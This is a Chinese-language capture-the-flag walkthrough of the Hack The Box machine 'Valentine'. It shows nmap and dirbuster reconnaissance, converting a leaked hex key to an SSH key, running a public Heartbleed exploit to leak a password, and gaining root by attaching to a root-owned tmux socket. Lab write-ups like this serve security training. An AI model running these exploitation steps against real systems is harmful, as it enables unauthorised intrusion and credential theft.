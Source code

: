 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Valentine"
linktitle: "Valentine"
date: 2022-05-13T16:06:40+08:00
type: book
summary: ""
test: 
---
```



nmap

```python
sudo nmap -T4 -Pn -sV 10.10.10.79
```

![](image/image_NsGV6cgvjb.png)

访问80，图片给的提示应该是心脏出血漏洞 [heartbleed ](https://zh.m.wikipedia.org/zh-hans/%E5%BF%83%E8%84%8F%E5%87%BA%E8%A1%80%E6%BC%8F%E6%B4%9E "heartbleed ")

![](image/image_tss7pXDmIc.png)

dirbuster扫描web路径

![](image/image_bv47XCHRCw.png)

```text
http://10.10.10.79/dev/
```

![](image/image_G3_LldCdHm.png)

hype\_key

![](image/image_IgC8c1OYv5.png)

```纯文本
xxd -r -p hype_key>id_rsa
```

![](image/image_7-qQtUPX8s.png)

发现是ssh登录需要的密钥文件，hype应该是用户名，尝试登录，发现需要密码

![](image/image_2z0OBFl_i_.png)

&#x20;[heartbleed ](https://zh.m.wikipedia.org/zh-hans/%E5%BF%83%E8%84%8F%E5%87%BA%E8%A1%80%E6%BC%8F%E6%B4%9E "heartbleed ")漏洞利用

```bash
#查找kali上的脚本

searchsploit heartbleed 

#复制到当前目录
searchsploit -m 32745.py

```

![](image/image_ky3LX1QALh.png)

```bash
python2 32745.py -h

python2 32745.py 10.10.10.79

```

![](image/image_uINzUaKvA7.png)

得到

```bash
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==


#base64解码，这个应该就是密码

echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d

heartbleedbelievethehype


```

登录

```bash
ssh -i id_rsa hype@10.10.10.79
```

![](image/image_YKN89427OB.png)

提示id\_rsa权限太大，修改一下密钥文件权限，重新登录

```bash
chmod 500 id_rsa
```

登录成功

![](image/image_a1zeqqxiSI.png)

提权，

`sudo -l`需要密码

查看进程信息

```bash
ps -aux |grep root
```

![](image/image_b2SGspIAhr.png)

发现root进程 `/usr/bin/tmux -S /.devs/dev_sess`

`tmux`就是一个终端复用器，简单来说就是个终端

直接执行`tmux -S /.devs/dev_sess`，即可获得root shell

![](image/image_M8OaFxmJNK.png)
